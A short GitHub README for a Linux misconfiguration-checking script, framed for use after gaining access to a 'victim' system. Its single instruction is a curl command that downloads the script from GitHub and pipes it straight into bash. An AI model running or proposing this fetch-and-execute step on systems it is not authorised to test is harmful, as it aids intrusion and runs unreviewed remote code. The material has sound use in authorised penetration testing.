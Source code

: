 # LinuxSystemMisconfigurations
A useful script to check every linux misconfiguration

Once you have access to the victim Linux system, run the script to check every miscofinguration.

`curl -s "https://raw.githubusercontent.com/p3n4x0/LinuxSystemMisconfigurations/refs/heads/main/checkMisconfigurations.sh" | bash`
